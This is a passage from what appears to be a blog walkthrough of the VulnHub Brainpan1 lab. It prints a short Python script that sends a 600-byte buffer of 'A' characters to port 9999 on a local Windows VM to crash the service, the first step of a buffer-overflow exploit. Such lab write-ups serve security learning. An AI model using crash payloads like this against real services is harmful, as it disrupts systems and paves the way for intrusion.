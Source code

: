 ***

# Exploitation

From previous fuzzing I discovered that character sequence of approximately 600 bytes crashes the program. A simple python script can be made for sending data. 

{% highlight python %}

#!/usr/bin/python
import socket
import time

TARGET = "192.168.0.228" #192.168.0.228 for my windows VM
PORT = 9999
PAYLOAD = "A" * 600


######################################

try:

	print "[+] Connecting to IP:", TARGET, "at PORT:", PORT
	time.sleep(1)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((TARGET,PORT))

	print "[+] Sending the data ..."
	time.sleep(1)
	s.send(PAYLOAD) #Sends payload
	print "[+] DONE!!"

	print "[+] Trying to connect again..."
	time.sleep(1)
	s.connect((TARGET,PORT)) #See if the service is still up

except:
	print "[-] Error connecting - possible crash!!!"

{% endhighlight %}

<div class="notice--info">
  <h4>Note:</h4>
  <p>The IP change to .228 is due to tests being conducted on a new Windows VM</p>
</div>

<img src="/assets/img/blog/vulnhub-brainpan1/brainpan1-05.png">